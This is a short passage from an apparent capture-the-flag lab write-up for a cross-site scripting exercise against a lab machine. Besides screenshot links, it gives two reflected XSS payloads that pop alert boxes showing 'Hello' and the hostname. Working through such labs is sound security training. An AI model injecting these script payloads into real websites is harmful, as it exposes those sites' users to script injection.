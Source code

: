 ### **#2 Hack into the webapp, and find the flag!**

![](<../../.gitbook/assets/Screenshot from 2020-08-26 21-48-03.png>)

![](<../../.gitbook/assets/Screenshot from 2020-08-26 21-46-34.png>)

## :warning: **** \[Day 7] Cross-site Scripting

### #2 **Go to http://10.10.94.53/reflected and craft a reflected XSS payload that will cause a popup saying "Hello".**

```markup
<script>alert("Hello")</script>
```

![](<../../.gitbook/assets/Screenshot from 2020-08-26 22-03-56.png>)

### #3 **On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.**

```markup
<script>alert(window.location.hostname)</script>
```
